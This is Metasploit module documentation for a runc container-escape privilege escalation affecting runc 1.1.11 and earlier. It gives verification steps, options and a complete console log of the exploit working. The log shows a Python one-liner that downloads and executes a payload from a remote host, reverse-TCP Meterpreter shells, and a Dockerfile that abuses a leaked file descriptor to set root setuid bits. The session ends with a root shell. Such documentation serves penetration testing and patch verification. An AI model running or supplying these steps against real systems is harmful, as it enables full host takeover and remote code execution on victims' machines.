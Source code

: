 ## Vulnerable Application

All versions of runc <=1.1.11, as used by containerization technologies such as Docker engine,
and Kubernetes are vulnerable to an arbitrary file write.
Due to a file descriptor leak it is possible to mount the host file system
with the permissions of runc (typically root).

Successfully tested on Ubuntu 22.04 with runc 1.1.7-0ubuntu1~22.04.1 using Docker build.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial session
1. Do: `use exploit/linux/local/runc_cwd_priv_esc`
1. Do: `set session [session]`
1. Do: `run`
1. You should get a root shell.

## Options

## DOCKERIMAGE

A docker image to use, docker image must have linux commands
available (`scratch` won't work). Defaults to `alpine:latest`

## FILEDESCRIPTOR

The file descriptor to use, typically `7` or `8`. Defaults to `8`

### runc 1.1.7-0ubuntu1~22.04.1 on Ubuntu 22.04

Get an initial shell

```
user@userubuntu22:~/metasploit-framework$ ./msfconsole -qr runc.rb
[*] Processing runc.rb for ERB directives.
resource (runc.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (runc.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (runc.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://1.1.1.1:8080/v5IbTIj', context=ssl._create_unverified_context());exec(r.read());"
[*] 1.1.1.1   web_delivery - Delivering Payload (436 bytes)
[*] Sending stage (24768 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 1.1.1.1:45198) at 2024-02-01 18:14:09 +0000
msf6 exploit(linux/local/runc_cwd_priv_esc) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : userubuntu22
OS              : Linux 5.19.0-43-generic #44~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Mon May 22 13:39:36 UTC 2
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
resource (runc.rb)> use exploit/linux/local/runc_cwd_priv_esc
[*] Started reverse TCP handler on 1.1.1.1:4444
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
resource (runc.rb)> set lhost 1.1.1.1
[*] Using URL: http://1.1.1.1:8080/v5IbTIj
lhost => 1.1.1.1
resource (runc.rb)> set session 1
session => 1
resource (runc.rb)> set lport 9876
lport => 9876
msf6 exploit(linux/local/runc_cwd_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/runc_cwd_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:9876
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable runc version 1.1.7-0ubuntu1~22.04.1 detected
[*] Creating directory /tmp/.HdUvYm3
[*] /tmp/.HdUvYm3 created
[*] Uploading Payload to /tmp/.HdUvYm3/.OiGEedVKP
[*] Uploading Dockerfile to /tmp/.HdUvYm3/Dockerfile
[*] Building from Dockerfile to set our payload permissions
[*] DEPRECATED: The legacy builder is deprecated and will be removed in a future release.
[*]             Install the buildx component to build images with BuildKit:
[*]             https://docs.docker.com/go/buildx/
[*]
[*] Sending build context to Docker daemon  3.072kB
[*] Step 1/3 : FROM alpine:latest
[*]  ---> 05455a08881e
[*] Step 2/3 : WORKDIR /proc/self/fd/8
[*]  ---> Using cache
[*]  ---> f73c936557f3
[*] Step 3/3 : RUN cd ../../../../../../../../ && chmod -R 4777 tmp/.HdUvYm3 && chown -R root:root tmp/.HdUvYm3 && chmod u+s tmp/.HdUvYm3/.OiGEedVKP
[*]  ---> Running in c4afc663c2bc
[*] Removing intermediate container c4afc663c2bc
[*]  ---> b490ec709420
[*] Successfully built b490ec709420
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 1.1.1.1
[+] Deleted /tmp/.HdUvYm3
[*] Meterpreter session 2 opened (1.1.1.1:9876 -> 1.1.1.1:43876) at 2024-02-01 18:15:04 +0000
[-] run: Interrupted
msf6 exploit(linux/local/runc_cwd_priv_esc) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
```
